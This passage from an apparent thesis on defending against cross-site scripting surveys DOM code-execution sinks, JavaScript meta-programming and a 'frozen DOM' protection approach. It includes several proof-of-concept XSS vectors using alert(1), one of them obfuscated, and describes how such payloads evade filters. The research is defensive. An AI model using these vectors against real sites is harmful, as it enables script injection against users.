'javascript:alert(1)'}. Sinks such as \textit{document.URL} are considerably less known. They do, however, enable attacks from within HTML attributes such as \texttt{<img src=x onerror=URL='javascript:alert(1)'>}. Opera and Internet Explorer allow using the \textit{navigate()} method to resolve a JavaScript URI. Note that these kinds of injections do not require long attack strings or occurrence of special chars like parenthesis as \texttt{URL=name}, \texttt{URL=URL} or \texttt{location=name} will suffice. Depending on whether a website is allowed to open new windows and pop-ups, the methods \textit{open()}, \textit{showModalDialog()} and \textit{showModelessDialog()} may also resolve sinks and allow arbitrary JavaScript execution via JavaScript URIs.
      %
     \item \textbf{Sinks enabling HTML injections} These injections include assignment of strings containing active HTML code to DOM properties. They will be discussed in Section~\ref{subsubsubsec:6.6.4.1.content_properties}. One of the properties in question is the \textit{innerHTML} property of most HTML element nodes, as well as the \textit{outerHTML} pendant. In an attribute injection context, a vector \texttt{<body onload=innerHTML='<img src=x onerror=alert(1)>'>} would work. Execution of arbitrary JavaScript attacks like this are harmful, and moreover, they can also target and overwrite arbitrary HTML element-content. This can lead to removal of script tags containing protective code. Node-traversal from the injected element to other elements is possible by using \textit{parentNode} and \textit{firstChild} or \textit{nextSibling}. Beware of these kinds of injections as they do not require long attack strings or occurrence of special chars like parenthesis -- suspicious characters can be heavily obfuscated and encoded: \texttt{<body onload=innerHTML='<img src=x onerror=alert\textbackslash x28 1\textbackslash x26\#x29>'>}. 
    \end{itemize}

    String-to-code sinks and JavaScript evaluation methods pose great risks for server-side attack protection libraries. It is in their nature to allow a massive amount of obfuscation -- hindering signature-based systems from detecting and preventing. Once a string is evaluated, the level of obfuscation possibly applicable to the string and its contents is almost arbitrary. Encoding can be used multiple times, the string can contain further eval operations, it can employ whitespace and special characters for obfuscation or make use of the browser artifacts and parsing bugs. When the PHPIDS project widened its script to detect attack strings in JavaScript context in late 2008, the filter rules had to grow significantly in size and complexity to cover at least a small level of obfuscation. Only thanks to the integrated converter module, capable of decoding several known escaping methods and JavaScript entities, the amount of filter bypasses was kept at a reasonable level. With the introduction of JavaScript non-alphanumeric code by Hasegawa in 2009, detecting suspicious substrings indicating usage of JavaScript methods and DOM properties became complicated to an even greater degree~\footnote{Hasegawa, \textit{New XSS vectors/Unusual Javascript}, \url{http://sla.ckers.org/forum/read.php?2,15812,28465\#msg-28465} (June 2009)}. \\

    Further importance of string-to-code sinks and JavaScript evaluation methods pertain to DOM-based XSS (DOMXSS) scenarios. Many attacks belonging to this class remain possible due to the sole fact of developers not expecting certain DOM properties to be code execution sinks. A web application security challenge issued in early 2011 proved that by using a code-execution sink in Internet Explorer, combined with a HPP-like technique (HTTP Parameter Pollution, published in 2011 by Balduzzi et al.~\cite{balduzzi2011automated}), an attacker can execute arbitrary code with just seven characters of trigger code~\footnote{Heiderich, \textit{alert(document.cookie) with 7 characters}, \url{http://heideri.ch/7} (March 2011)}.

  \section{DOM Meta-Programming}
  \label{subsec:6.3.dom_meta_programming}

    The security design pattern and library put forward by this thesis rely on meta-program-\\
ming in JavaScript and a website DOM ability to monitor method calls, property access, and subsequently qualify legitimacy of these transactions in a security and privacy sense. In this Section, we will shed light on former browser vendors' efforts in creating meta-programming interfaces for DOM and JavaScript. In addition, we will showcase several proprietary and by now often deprecated techniques, and then, we will move on to a description of the necessary prerequisites and whereabouts of the frozen DOM -- a modern approach of taming scripting-based web attacks and thriving towards elimination of XSS, while observing the standards.

\begin{figure}[htb]
\centering

\includegraphics[width=0.5\textwidth]{./img/dom-protect-1.pdf}
\caption{DOM Meta-Programming allows interception of property access, caller, getter and setter inspection and according reaction; Tamper resistance is not given yet and will be discussed in following sections}
\label{fig:dom-protect-1}
\end{figure}

    \subsection{Proprietary Approaches}
    \label{subsubsec:6.3.1.proprietary_approaches}
  
      The following paragraphs will cover the existing proprietary approaches and techniques to create a meta-programming layer for the DOM and JavaScript business logic of modern web applications. The discussed techniques are meant to give a short overview of how developers and browser vendors have aimed at completing the task of creating a DOM, which benefits from extended Object Oriented Programming (OOP) features. First attempts have been already available in Netscape 4 based browsers, defining a unique way to monitor object mutation events~\cite{sun-netscape_alliance_core_2000}. The successor of this ancient and highly deprecated Netscape getter/setter syntax -- the two Object extending methods, labeled \textit{\_\_defineGetter\_\_} and \textit{\_\_defineSetter\_\_}, will constitute the topic of next paragraph's considerations. 

      \subsubsection{Using \_\_defineGetter\_\_ and \_\_defineSetter\_\_}
      \label{subsubsubsec:6.3.1.1.using_definegetter_and_definesetter}

      In their version of JavaScript 1.5, the Mozilla JavaScript interpreters started to support a family of methods allowing a dynamic management of getter and setter access. These methods were available in a Mozilla release, taking place long before Firefox and its predecessors Phoenix and Firebird were around. First references to usage recommendations for \textit{\_\_defineSetter\_\_} and \textit{\_\_defineGetter\_\_} were published in June 2002 by Erik Arvidsson~\cite{arvidsson_power_2002}. \\

      JavaScript getters and setters are meant to be interceptor functions capable of noticing read or write access to an object property. In Object Oriented Programming (OOP), these kinds of methods are generally known as mutator methods or accessor functions -- since they are capable to register and intercept states of object mutation and property access. In 1998, Lee debated the low-level performance impact of accessor function-driven object orientation~\cite{lee_run_1998}, more than ten years later, Ventura et al introduced JSC; this is a JavaScript Object System utilizing getters and setters~\cite{ventura2009jsc}. Phung et al. followed suit, discussing light-weight self-protecting JavaScript and using \textit{\_\_defineGetter\_\_} and \textit{\_\_defineSetter\_\_} in web security and DOM-focused context~\cite{phung_lightweight_2009}. \\

      In early 2011, Patil et al. elaborated on fine-grained access control systems in JavaScript through using getters and setters~\cite{patil2011towards}. Their system, called JCShadow, aims at flexible and granular access control management for untrusted JavaScript content in modern web applications. Similar to ConScript proposed by Meyerovich et al. in 2010, JCShadow does not rely on ES5- based Object capabilities, but employs object getters and setters \textit{\_\_defineGetter\_\_} and \textit{\_\_defineSetter\_\_} or even full stack JavaScript engine rewriting. \\

      A framework allowing black-list-based property access control via \textit{\_\_defineGetter\_\_} and \textit{\_\_defineSetter\_\_} can be attained with few lines of code, as displayed in Listing~\ref{lst:define-getter-cookie}:

\begin{lstlisting}[captionpos=b,label=lst:define-getter-cookie,caption=Example defining a new getter for document.cookie]
<script type="text/javascript">
  document.cookie = 'secret';
  document.__defineGetter__('cookie', function(){return false;});
  alert(document.cookie) // will alert false
</script>
\end{lstlisting}  

      The example code defines the getter function as the one to be called when the DOM property \textit{document.cookie} is accessed. This property is worthy of protection provided by an accessor function mainly because it is often targeted by XSS attacks. In the exemplary snippet, an anonymous method is executed, returning false instead of the actual value of \textit{document.cookie}. \\

      Currently, the object extensions in question are supported by Mozilla Gecko, Opera Presto and the Webkit layout engine, regardless of their original propriety. Despite this fair amount of user agents supporting \textit{\_\_defineGetter\_\_} and \textit{\_\_defineSetter\_\_}, the method cannot serve as a robust foundation for a security critical DOM framework. On one hand, the lack of support in Internet Explorer hinders effective deployment for a substantial amount of users, while on the other hand, a framework based on these object extensions is neither tampering-safe nor stealthy. Most browsers supporting these methods to define getter and setter -- and consequently even provide a method to extract getters and setters to control those more easily. These methods are labeled \textit{\_\_lookupGetter\_\_} and \textit{\_\_lookupSetter\_\_} and if called on an object property, they return the added getter and setter~\cite{zbarsky___lookupgetter___2011}. \\

      As discussed by Heiderich et al., \textit{\_\_defineGetter\_\_}- and \textit{\_\_defineSetter\_\_}-based object manipulation can easily be detected and removed or even overwritten by a malicious script~\cite{heiderich2011iceshield}. By using the \textit{delete} operator on the protected property, or simply overwriting the existing getters and setters with new possibly malicious methods, the result can be achieved. Another problem is the black-list characteristic mentioned before. This approach does not allow membrane-like actions and universal definitions of getters. Any redefined property must be applied with getters or setters individually.

      \subsubsection{Proxying Calls with \_\_noSuchMethod\_\_}
      \label{subsubsubsec:6.3.1.2.proxying_calls_with_nosuchmethod}

      The object method \textit{\_\_noSuchMethod\_\_} is a proprietary JavaScript feature available only in Gecko-based user agents, such as Firefox. The method is clearly inspired by the Smalltalk (an object oriented programming language) feature \textit{doesNotUnderstand} and gives a developer an option to define a ``catch-all'' proxy in case a script attempts to call a non-existing object method. While both this practice and its intended use case is relatively uninteresting for a client-side security mechanism, we decided to unveil its true power by using a small trick we published in~\cite{heiderich2011iceshield}. For the initial IceShield prototype, we needed a reliable way to proxy any method call to host objects like \textit{window} or \textit{document}. Therefore, we deleted every available method on those objects, stored their backup in a local variable contained in a closure, and later applied the object with \textit{\_\_noSuchMethod\_\_} functionality. Consequently, any following call for any DOM method belonging to \textit{window} or \textit{document} would have resulted in a failure. This is due to the fact that the method was no longer present. Instead of throwing an error, the user agents called the \textit{\_\_noSuchMethod\_\_} handler and allowed us to inspect the parameters of each called function, decide weather they might contain harmful data, and then either execute the called function from our backup, which we could then equip in arbitrarily  arbitrarily modified parameters if necessary. \\

      The lack of standards' conformity and browser support, as well as an absence of a possibility to seamlessly apply the same behavior for object members and not only methods, encouraged us to abandon this approach and choose actual wrapping and tamper-resistant ES5 feature. Nevertheless, this approach must be highlighted for enabling DOM proxies for methods long before the first specifications on that topic came up.

      \subsubsection{Listening to Property Changes}
      \label{subsubsubsec:6.3.1.3.listening_to_property_changes}

      Use of a proprietary DOM event called \textit{onpropertychange} is supported by the Internet Explorer browser~\footnote{MSDN, \textit{onpropertychange Event}, \url{http://msdn.microsoft.com/en-us/library/ms536956(v=vs.85).aspx} (Dec 2011)}. The connected event \textit{propertyChange} allows monitoring DOM properties and HTML node as well as their attributes for script-based modifications. As soon as a property with the event handler attached is modified, the event handler executes and allows inspection of the current changes. Note that the event is being fired twice: Once before and once after the change happens. For that reason, it can be used to hinder them or rigorously revert the effect. While the latter might not be achievable in time for a protective purposes during a real life attack, the former might cause problems to possible race conditions. Nevertheless, simple and effective monitoring of setter access for almost arbitrary DOM properties is feasible, as shown by the exemplary code in Listing~\ref{lst:opc-protection}.\\

\begin{lstlisting}[captionpos=b,label=lst:opc-protection,caption=Protecting DOM property setter access with the onpropertychange event handler]
<html>
<img id="test" src="good">
<script type="text/javascript">
function defend(e) {
	if(test.src === 'evil' && !runonce) { 
		test.src='good'; runonce=true;
	} else { runonce=false; }
}
test.onpropertychange = defend;
test.src='evil' // <- malicious code
</script>
</html>
\end{lstlisting}

      Despite the potentially beneficial features \textit{onpropertychange} possesses, the event handler can be used to bypass other client-side protection mechanisms. This issue has been debated in Section~\ref{subsubsubsec:6.6.4.2_event_control}. As soon as an attacker uses these accessor mutation technique against other existing approaches, severe problems might occur. It is so because the \textit{onpropertychange} interceptor can be introduced by a simple attribute injection and does not require an attacker to find an injection point inside script tags or other critical positions inside a document rendered by browsers. This manner of adding a horizontal code execution layer to a HTML document is a single fully operational option employing a simple attribute injection, which makes it powerful and superior to similar approaches in numerous situations. In the following Sections, we will take a general look at the risky \textit{onpropertychange} and introduce techniques that usually include client-side deactivation of this proprietary event handler.\\

      %\subsubsection{VBScript Getters and Setters}
      %\label{subsubsubsec:6.3.1.4.vbscript_getters_and_setters}

    \subsection{ECMA Script 5 Object Extensions}
    \label{subsubsec:6.3.2.es5_object_extensions}

      The most important and in-scope ES5 object extension features are those allowing to re-define accessor behavior, control configurability, and thereby retain an object state, as well as sealing and freezing objects to prevent modification of extension and child property. The list introduced below will give the most important object extensions necessary for creating and persisting a frozen DOM, managing tamper-resistant accessor control, and preventing objects from being modified by an attacker-controlled script. In the later sections, we will elaborate on the prototypic security tool, which is expected to be able to allow an attacker arbitrary JavaScript execution; at the same time, it shall prohibit access to sensitive data and critical DOM properties and methods. We mainly use ES5 object extensions to accomplish this particular goal.

      \begin{itemize}
	%
	\item \textbf{Object.freeze} Freezing an object will make sure that it cannot be extended and its existing properties cannot be removed. Conversely to the related method \textit{Object.preventExtension}, freezing will have a type error being thrown on extension and reduction of an object. Deletion of properties is not possible. This is very important in a security context, since deletion of host-object properties might turn them back to their original state rather than actually deleting them: \texttt{Object.freeze(window);window.evil=1;//Throws a type error in strict \\
mode, no change to window in non-strict mode}. A script can access information about the freeze state of a given object by executing \textit{Object.isFrozen}~\footnote{MDN, \textit{Object.freeze}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Object/freeze} (Dec 2011)}.
	%
	\item \textbf{Object.seal} To Seal an object, essentially means performing an extended freeze. Not only will extension and reduction of an object be prevented, but in addition, all object properties will be set to \textit{configurable:false}. That signifies that after the sealing is completed, they can no longer be changed. An object should be sealed if it is necessary to make sure that the object state will be persisted and none of its properties must not be modified again. A practical use case might be an object equipped with additional accessor control to make sure observed variables cannot be set without the object taking notice: \texttt{window.good=1;Object.seal(window);window.good\\
=2;//Throws a type error in strict mode, no change to window in non-\\
strict mode}.\\
The seal state of an object can be requested by calling \textit{Object.isSealed}~\footnote{MDN, \textit{Object.seal}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Object/seal} (Dec 2011)}.
	%
	\item \textbf{Object.defineProperty} For a client-side security tool to work properly and reliably, the possibility to define a property and its behavior in ES5 is fundamental. \textit{Object.defineProperty} receives two parameters: The parent object of the property to define, the label of the property to define in string representation, and most importantly a descriptor literal containing the actual property definitions. 
	Six different descriptors are available: \textit{get} to define a function being called once get access to the property occurs, \textit{set} to define a function to be called once write-type property access occurs, \textit{value} to define the value of the property (which cannot be set once get/set are being defined and vice versa, since this would generate a conflict), \textit{writable} to define possibility to overwrite the property, \textit{enumerable} to define visibility in a \textit{for in} loop, and ultimately, \textit{configurable} to define if the property should be re-definable or persistent in a final state after the definition. 
	The last of the listed descriptors is comparable to \textit{Object.seal} and fundamental for a tamper resistant DOM security tool. We will clarify the importance of tampering-resistance in the later sections of this thesis and show real-life use cases for security enhancements pertaining to the existing libraries upon the employment of this object extension. The following code would call the alert method, once the attempt to overwrite a good property of the window is performed: \texttt{Object.defineProperty(window, 'good', \{set: function()\{alert(arguments.callee.caller + ' attempted write access')\\
\}\})}. Unlike several approaches summarized in Section~\ref{subsubsec:6.3.1.proprietary_approaches}, the ES5 syntax is the first standardized and universally available way to define object's properties~\footnote{MDN, \textit{Object.defineProperty}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Object/defineProperty} (Dec 2011)}. For a comprehensively working security library, it might make sense in many practical use cases to ultimately re-define \textit{Object.defineProperty} with an empty value in order to prevent an attacker from abusing the power that this method often has.
	%
	\item \textbf{Object.getOwnPropertyNames} The ability to enumerate object's child properties in a reliable way is substantially important for a DOM-based, white-list driven security tool. Without knowing the DOM, a security tool cannot control and manage access and consequently stop possible deviations and exploit code. Our prototypic approaches listed in Section~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac} and Section~\ref{subsubsubsec:6.6.4.2_event_control} use a combined call to \textit{window} and \textit{Window.prototype} to collect all important constructor and property labels for later treatment and sealing. The novel approach introduced in Section~\ref{subsubsec:6.7.3.dom_proxies_enabling_whitelists} describes an alternative to enumerating properties. We there propose an instrumentation of an on-top ``catch-all'' mechanism detecting and judging property access and method called before they are being delegated to the script engine for execution. \textit{Object.getOwnPropertyNames} is also part of the ES5 specification~\footnote{MDN, \textit{Object.getOwnPropertyNames}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Object/getOwnPropertyNames} (Dec 2011)}.
	%
	\item \textbf{Object.getPrototypeOf} Apart form providing interfaces to re-define and wrap host objects and other DOM properties, ES5 specifies a way of getting access to the object prototype. This method has been primarily specified to displace the deprecated usage of the \textit{\_\_proto\_\_} property~\footnote{MDN, \textit{Object.getPrototypeOf}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Object/GetPrototypeOf} (Dec 2011)}. Additionally, permitting prototype access in a trusted DOM, often raises complexity and increases the risk of creating security vulnerability. Therefore, it should be ensured that an object prototype cannot be overwritten, or even retrieved, in many situations. Consequently, it is recommendable to re-define this method after all solicited DOM modifications have been performed. An application of the same modification to this method, as to \textit{defineProperty} after it has been used on the existing DOM properties is suggested. For further references and for the sake of maintaining continuity, a copy of those properties can be kept isolated inside a closure. 
	%
      \end{itemize}

      Meanwhile, the support for ES5 object extensions is present in all modern browsers subjected to our testing. This includes Internet Explorer 9+, Firefox 4+, Opera 11.6+, Safari 5 and Google Chrome. The Konqueror browser is not in scope of our investigations since its market share is almost non-existent and we deem it marginally relevant for our purposes. Deprecated browser versions, such as Internet Explorer 6, are out of scope -- some of the protection features mention in the following sections are applicable though and can assist in creating an alternative protection library in future projects. Mind though that legacy browsers' full protection potential is neither given nor encompassed by the goals of this thesis.

    \subsection{ECMA Script 6 Proxies}
    \label{subsubsec:6.3.3.es5_proxies}

      In the context of scripting languages, van Cutsem and Miller~\cite{van2010proxies} introduced proxies as means to represent virtualized objects and create multilayer access-controlled object membranes. In several aspects, their approach is in line with the frozen DOM and can be tested with modern Gecko-based browsers; A. Gal implemented the Proxy functionality in Tracemonkey allowing easy portation to Firefox and similar user agents. Gal is also an initiator of the \textit{dom.js} project, an attempt to evaluate proxies in regards to their capabilities of emulating a fully WebIDL-compliant HTML5 DOM in pure JavaScript~\footnote{A. Gal, \textit{Self-hosted JavaScript implementation of a WebIDL-compliant HTML5 DOM}, \url{https://github.com/andreasgal/dom.js} (Dec 2011)}.

      \subsubsection{Proxies and Traps}
      \label{subsubsec:6.4.1.proxies_and_traps}

      Proxies have similar goals to what the frozen DOM approach is proposing. They enable arbitrary JavaScript objects to be represented by a virtualized version leveraging access control and interception of property access. A debate on additional objectives of Proxy objects can be found on the ECMA Script Wiki~\footnote{Eich, B. et al., \textit{ES Wiki}, \url{http://wiki.ecmascript.org/doku.php} (Jan 2012)}. Proxies were expected to land in ECMA Script 6 and are not part of ES5, nor the earlier versions. The Proxy API is notably simple. Two methods are exposed by the proxy object: \textit{Proxy.create} and \textit{Proxy.createFunction}. Their general usage is demonstrated in Listing~\ref{lst:proxy-example-code} where a user-land object is applied with a Proxy for further representation and access control. In essence, the proxy factory receives a handler literal and an optional proto object. The resulting object will be delegating incoming access attempts and calls through a given proxy \textit{traps} -- representational methods specified by the developer ``trapping'' native object method calls and operations. The API provides two categories of traps: Fundamental traps and derived traps. The two lists below, which were abbreviated from~\footnote{v. Cutsem, T. et al, \textit{Catch-all Proxies}, \url{http://wiki.ecmascript.org/doku.php?id=harmony:proxies} (Dec 2011)} introduce those traps:\\

\textbf{Fundamental Traps}
\begin{itemize}
  \item \texttt{has} represents name in proxy
  \item \texttt{hasOwn} represents ({}).hasOwnProperty.call(proxy, name)
  \item \texttt{get} represents receiver.name
  \item \texttt{set} represents receiver.name = val
  \item \texttt{enumerate} represents for (name in proxy)
  \item \texttt{keys} represents Object.keys(proxy)
\end{itemize}

\textbf{Derived Traps}
\begin{itemize}
  \item \texttt{getOwnPropertyDescriptor} repr. Object.getOwnPropertyDescriptor(proxy, name)
  \item \texttt{getPropertyDescriptor} represents Object.getPropertyDescriptor(proxy, name)
  \item \texttt{getOwnPropertyNames} represents Object.getOwnPropertyNames(proxy) 
  \item \texttt{getPropertyNames} represents Object.getPropertyNames(proxy)
  \item \texttt{defineProperty} represents Object.defineProperty(proxy,name,descriptor)
  \item \texttt{delete} represents delete proxy.name
  \item \texttt{fix} represents Object.{freeze|seal|preventExtensions}(proxy) 
\end{itemize}

      What is keeping us from utilizing Catch-All proxies' capabilities, is their basic vital limitation: they are simply not designed to be able to virtualize and therefore potentially protect host objects. What is more, the API specification underwent several changes disallowing us to predict their future development. At the time of writing, only Gecko-based user agents were providing a Proxy API to test against. According to an announcement published on the ES Wiki in late 2011, the Catch-All proxy API is no longer state of the art and had to make space for a novel approach: Those proxies have been superseded by a brand-new API labeled \textit{Direct Proxies}~\footnote{van Cutsem, T., \textit{Direct Proxies}, \url{http://wiki.ecmascript.org/doku.php?id=harmony:direct_proxies} (Dec 2011)}. While the Catch-All proxy API required to pass a handler and proto to the create method, the Direct Proxy methodology requires to pass a target and as second parameter the handler directly to the Proxy object. The \textit{create} and \textit{createFunction} methods do not exist anymore in the current revision of the working draft. Assuming storage of a safe copy of a host object or a proxy isolated by a closure, a developer can now overwrite the original host object via its proxy representation. After that, any access to the host object can be intercepted and, in effect, regulated with strong and precise access controls. Similarly to the Catch-All proxy API, the Direct Proxy API offers a set of methods for the handler object shown in the following list. Note that the list of available methods has grown and provides better coverage for real-life DOM interaction scenarios.\\

\textbf{Direct-Proxy Traps}
\begin{itemize}
 \item \texttt{getOwnPropertyDescriptor} repr. Object.getOwnPropertyDescriptor(proxy,name)
  \item \texttt{getOwnPropertyNames} represents Object.getOwnPropertyNames(proxy) 
  \item \texttt{defineProperty} represents Object.defineProperty(proxy,name,desc)
  \item \texttt{deleteProperty} represents delete proxy[name]
  \item \texttt{freeze} represents Object.freeze(proxy)
  \item \texttt{seal} represents Object.seal(proxy)
  \item \texttt{preventExtensions} represents Object.preventExtensions(proxy)
  \item \texttt{has} represents name in proxy
  \item \texttt{hasOwn} represents ({}).hasOwnProperty.call(proxy,name)
  \item \texttt{get} represents receiver[name]
  \item \texttt{set} represents receiver[name] = val
  \item \texttt{enumerate} represents for (name in proxy)
  \item \texttt{iterate} represents for (name of proxy)
  \item \texttt{keys} represents Object.keys(proxy)
  \item \texttt{apply} represents proxy(...args)
  \item \texttt{construct} represents new proxy(...args)
\end{itemize}

      We will specify and discuss an implementation of the aforementioned access control mechanisms in detail in Section~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac} and Section~\ref{subsubsubsec:6.6.4.2_event_control}. 

      \subsubsection{Proxies and Deployment Order}
      \label{subsubsec:6.4.2.proxies_and_deployment_order}

      As with all proxy-based approaches, for effective wrapping and subsequent efficient protection, the developer \textit{must} deploy first -- before an attacker can execute any script code or similar instructions. Once an attacker manages to find an injection point prior to the script execution of the developer controlled code, its proper functionality can be no longer guaranteed. The order of deployment is of highest priority for a DOM based security solution. One way to enforce the dogma of the deployment order is to use HTTP headers to specify the script resource to include and execute before any other script can load.

\begin{lstlisting}[captionpos=b,label=lst:proxy-example-code,caption=Example code for Catch-All and Direct-Proxy implementations]
// obsolete ES6 Catch-All Proxy API
var foo = Proxy.create({
  get: function(){
    /* delegate read access attempts */
  },
  set: function(){
    /* delegate write access attempts */
  }
  ...
}, Object.prototype); 

// novel ES6 Direct-Proxy API
var window = Proxy(window, {
  get: function(){
    /* delegate read access attempts */
  },
  set: function(){
    /* delegate write access attempts */
  }
  ...
});
\end{lstlisting}

      The current state of the Direct Proxy discussion and pre-specification is closely related yet independent from the proposal we formulate in Section~\ref{subsubsec:6.7.3.dom_proxies_enabling_whitelists}. As mentioned in Chapter~\ref{ch:7:outlook-and-future-work}, depending on the developmental state of the ES6 proxy approach, our proposal might slightly change. The closer our implementation gets to a standards conforming and universally usable software framework, the higher the chances for framework adaption. It should be noted that van Cutsem created a JavaScript mock-up to test the Direct Proxy emulated via JavaScript and the Catch-All implementation in modern Firefox browsers~\footnote{van Cutsem, T., \textit{DirectProxies.js}, \url{http://code.google.com/p/es-lab/source/browse/trunk/src/proxies/DirectProxies.js} (Dec 2011)}. The \textit{es-lab} spawning this demo implementation provides further useful resources for early testing and mock-up based emulation of upcoming ES6 features. The Mozilla Developer Network further provides an informal documentation on plans for ES6 implementations including Direct Proxy features~\footnote{MDN, \textit{ES6 Plans}, \url{https://wiki.mozilla.org/ES6_plans} (Jan 2012)}.

    \section{Creating a Frozen DOM}
    \label{subsec:6.4.creating_a_frozen_dom}

      A frozen DOM indicates an implementation of DOM with properties that are no longer changeable after an initial sequence of scripts' execution. We will dedicate the coming considerations to the detailed definition of a frozen DOM, which is an important step towards a DOM-based RBAC, a client-side DOM-based IDS/IPS. Its presence ultimately indicates the eradication of XSS attacks through a removal of the attack surface and replacing it by a trusted set of wrapped and access-aware node representations. A frozen DOM is meant to be the foundation for a novel last line of defense against scripting web attacks. So far, the user agents and modern web applications alike, continue to fail to provide a barrier keeping an attacker from obtaining full access to the attacked DOM and its sensitive property values. In Section~\ref{subsec:4.10.javascript_sandboxing}, we have discussed JavaScript sandboxes. As of yet, some of them are capable of slowing down, but  not of stopping a thrifty and motivated attacker from getting full access to important DOM assets. Our approach differs from those sand-boxing methodologies, yet it supports collaboration with these scripts and mechanisms. No code rewriting needs to happen for a frozen DOM in our approach, which simply wraps existing DOM objects, delimits access to them, and, if necessary, restricts accessor control to prevent arbitrary script code execution or data leakage. \\

\begin{figure}[htb]
\centering

\includegraphics[width=0.5\textwidth]{./img/dom-protect-2.pdf}
\caption{A frozen DOM allows developers to put DOM properties into a final state; This tamper protection is essential to persist meta-programming effects and prohibit attacks via malicious object modification}
\label{fig:dom-protect-2}
\end{figure}
    
      A partly or sometimes fully frozen DOM would mean a website's script logic can only obtain read-access to certain properties. Unlimited write-access can only be allowed for DOM properties that do not have a possibility to influence code flow, cause redirects or manipulate link and form targets, or to execute arbitrary script, which would be its major advantage. The following sections will primarily focus on a real-life project involving a partly frozen DOM for the sake of Malware detection and analysis we developed called IceShield~\cite{heiderich2011iceshield}. Following the introduction of IceShield, we will discuss the DOM properties capable of executing code and requiring prohibition of write- access for that reason. This thesis will describe a technique that goes beyond IceShield's goals and competences: We will use the Frozen DOM to be a foundation for a framework capable of eradicating illegitimate XSS.\\

      The technology behind the foundation of a frozen DOM is an array of object extensions available within ECMA Script 5 described in Section~\ref{subsubsec:6.3.2.es5_object_extensions}. They provide a guarantee for a developer to be able to set an object to an unmodifiable state. Except for a small range of browser bugs we have discovered during our testing, the promise of a final state for a DOM object -- even if it is an actual host object -- was kept. Once defined, sealed and frozen, an object can neither be modified nor extended or reduced. This is the very foundation for the frozen DOM and the security mechanisms reliant on this installation. Without this state of complete tamper-resistance, our security approach cannot work. \\ 
 
%     \subsection{Foundation for a Frozen DOM}
%     \label{subsubsec:6.4.1.foundation_for_a_frozen_dom}
%     % Terminology: watchpost, detector, interceptor
% 
%     \subsection{Defining Watch-Posts}
%     \label{subsubsec:6.4.2.defining_watchposts}
% 
%     \subsection{Defining Detectors}
%     \label{subsubsec:6.4.3.defining_detectors}
% 
%     \subsection{Defining Interceptors}
%     \label{subsubsec:6.4.4.defining_interceptors}
% 
%     \subsection{Design and Implementation}
%     \label{subsubsec:6.4.5.design_and_implementation}
% 
%     \subsection{Limitations}
%     \label{subsubsec:6.4.6.limitations}

  \section{Trusted and Capability Controlled DOM}
  \label{subsec:6.6.trusted_and_capability_controlled_dom}

     We introduce a trusted and capability controlled DOM as a novel last line of defense against scripting web attacks and XSS exploits. The following sections will be dedicated to the whereabouts of this approach, the necessary installments in modern browsers' DOM, the existing limitations and plans to mitigate those for a more seamless and thorough DOM-based protection approach feasible for real life applications' deployment.

    \subsection{Overwriting Critical Properties}
    \label{subsubsec:6.6.4.overwriting_critical_properties}

      As described in Section~\ref{subsec:6.5.introducing_iceshield}, the overwriting of critical DOM methods for the purpose of seamless DOM control and monitoring is crucial for a client-side IDS/IPS approach. We will initially discuss, which properties should be considered to be dangerous in a potentially attacker influenced DOM, and later dive into details on controlling events and applying basic access control.

      \subsubsection{Content Properties}
      \label{subsubsubsec:6.6.4.1.content_properties}

      Depending on the user agent and level of DOM specification, a HTML element or document node can have a varied number of content properties. 
      These signify the properties that allow to get or set information of the rendered content of the object: \textit{innerHTML} constitutes one of the most prominent content properties in modern browsers ~\footnote{MSDN, \textit{innerHTML Property}, \url{http://msdn.microsoft.com/en-us/library/ms533897(v=vs.85).aspx} (Dec 2011)}. Although this property is not defined by any open standard, the majority of relevant user agents have been supporting it for years. Microsoft introduced the property with Internet Explorer 4.0 back in 1997, as part of the JScript DOM implementation. Seeing its usefulness for quick DOM manipulation, other user agents quickly followed suit and adapted the property and its behaviors. In 2002, Opera 7.0 Beta was one of the last user agents to implement \textit{innerHTML} property. \\

